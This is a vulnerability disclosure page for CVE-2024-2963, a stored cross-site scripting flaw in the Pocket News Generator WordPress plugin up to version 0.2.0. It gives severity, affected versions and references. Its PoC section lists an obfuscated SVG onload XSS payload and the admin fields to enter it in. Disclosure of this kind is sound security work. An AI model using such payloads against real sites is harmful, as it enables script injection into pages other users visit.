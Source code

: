 ```yaml
---
layout: page
title: CVE-2024-2963
subtitle: Pocket News Generator <= 0.2.0 - Authenticated (Admin+) Stored Cross-Site Scripting
---
```

## Description
The Pocket News Generator plugin for WordPress is vulnerable to Stored Cross-Site Scripting via admin settings such as "Consumer Key" and "Access Token" in all versions up to, and including, 0.2.0 due to insufficient input sanitization and output escaping. This makes it possible for authenticated attackers, with administrator-level permissions and above, to inject arbitrary web scripts in pages that will execute whenever a user accesses an injected page. This only affects multi-site installations and installations where unfiltered_html has been disabled.

## Severity
 4.4 (Medium) - [CVSS:3.1/AV:N/AC:H/PR:H/UI:N/S:C/C:L/I:L/A:N](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:H/PR:H/UI:N/S:C/C:L/I:L/A:N)

## Affected Version
    <= 0.2.0

## PoC :
```
- Go to Settings/Pocket News Generator
- Input payload eneriiiiii<3<!--><Svg OnLoad=(confirm)(1335+2)-->'> on  Consumer Key &  Access Token
- Payload executed.
```

## Refrence
- https://plugins.trac.wordpress.org/browser/pocket-news-generator/trunk/pocket-news-generator.php#L77
- https://www.cve.org/CVERecord?id=CVE-2024-2963
- https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/pocket-news-generator/pocket-news-generator-020-authenticated-admin-stored-cross-site-scripting


